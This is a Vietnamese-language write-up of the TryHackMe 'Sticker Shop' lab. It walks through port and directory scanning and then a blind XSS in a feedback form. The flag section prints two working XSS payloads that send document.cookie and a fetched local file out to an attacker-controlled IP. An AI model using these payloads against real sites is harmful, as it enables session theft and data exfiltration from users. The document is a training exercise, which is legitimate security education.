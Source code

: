 <div align="center">
    <h1>☁️ TryHackMe The Sticker Shop Writeup 🛹
</h1>
</div>

## 🚀 1. Khởi động target

![Start taget](Images/0.start_taget.png)

## 🔍 2. Recon

- Sử dụng `nmap` quét mục tiêu

![Recon nmap](Images/1.nmap.png)

- Phát hiện 2 cổng mở
    - Cổng`22` cho dịch vụ ssh.

    - Cổng `8080` mở chạy dịch vụ `http` cho một ứng dụng web sử dụng `Werkzeug httpd 3.0.1` gì đó chạy trên `Python 3.8.10` với tiêu đề là `Cat Sticker Shop`.

- Tiếp tục quét thêm thư mục bằng `gobuster`

![Recon gobuster](Images/1.5.gobuster.png)

- Tuy nhiên cũng không tìm được kết quả nào đặc biệt (đã quét một lúc lâu trước đó, đoạn này chỉ chạy lại để chụp ảnh minh họa :)))

- Truy cập địa chỉ taget với port `8080` trước đó.

![Cat](Images/2.5.CatSticker.png)

- Mục tiêu là một trang Cat Sticker Shop khá đơn giản

- `Home` là một trang web tĩnh, ngó qua source code có vẻ cũng không có thứ gì đáng để tâm (ngoại trừ 2 còn mèo 🐱🐱)

- Trang `Feedback` cho phép để lại phản hồi của khách hàng -> có thể là mục tiêu để khai thác.

![Feedback](Images/2.8.feedback.png)

## 3. Tìm flag
- Thử tải flag bằng `curl` xem có được không.
```
 curl http://10.10.133.147:8080/flag.txt
```

![curl](Images/0.5.Curl.png)

- Kết quả là không được (tất nhiên rồi :)) ) 
- Dựa vào một số gợi ý trong phần mô tả của bài lab, có vẻ trang web này dính `XSS`

- Tuy nhiên khi nhập bất kì feedback nào, kể cả payload `XSS` thì chỉ nhận được thông báo `Thanks for your feedback! It will be evaluated shortly by our staff`

![Feedback](Images/2.9.bllind.png)

- => Có thể là `Blind XSS`.
- Để kiểm tra, nhập thử một payload có call back tới server của người tấn công

- Chuẩn bị server bằng lệnh `python3 -m http.server 4231`
- Nhập payload sau vào feedback (với `10.21.175.20` là ip của máy người tấn công)
```
<script>new Image().src="http://10.21.175.20:4321/?c="+document.cookie;</script>
```

![hoangdeptrai](Images/3.enter_payload.png)

- Kiểm tra server

![hoangdeptrai](Images/2.python_server.png)

- Có vẻ payload chạy thành công => có thể khai thác được `Blind XSS`.

- Tuy nhiên đoạn này mất thời gian vì khá khó để tìm payload phù hợp cho việc extract flag.

- Sau khi mò mẫm mẫu payload trên một số trang như [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), PortSwigger,... và sử dụng kĩ năng hỏi đáp (với ChatGPT :) ), tạo được payload như sau:

```
'"><script>
fetch("http://127.0.0.1:8080/flag.txt")
  .then(r => r.text())
  .then(flag => fetch("http://10.21.175.20:2222/?flag=" + encodeURIComponent(flag)))
</script>
```
- `fetch("http://127.0.0.1:8080/flag.txt")` - Gửi `HTTP GET request` từ trình duyệt đến máy `localhost` của mục tiêu, ở đây có thể là nhân viên shop.
    - Lúc đầu, tôi sử dụng địa chỉ của taget, tuy nhiên không thành công, sau đó khi đọc được gợi ý `so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback` từ mô tả cả bài lab => chuyển sang localhost và thành công
- `.then(r => r.text())` - Khi `fetch()` thành công, nó trả về một `Response object`, đoạn này giúp chuyển response thành chuỗi text để xử lý tiếp.

- `.then(flag => fetch("http://10.21.175.20:2222/?flag=" + encodeURIComponent(flag)))` - Gửi flag vừa lấy được về máy chủ của attacker. `encodeURIComponent()` để đảm bảo flag không bị lỗi URL khi chứa ký tự đặc biệt.

- Kiểm tra server, thành công extract được flag.

![hoangdeptrai](Images/5.result.png)


- Submit thành công 🎉

![hoangdeptrai](Images/6.flag.png)

- Hoàn thành bài lab 🔥🔥🔥

<div align="right">
    <em>📌 By: Hoàng Vũ :).</em>
</div>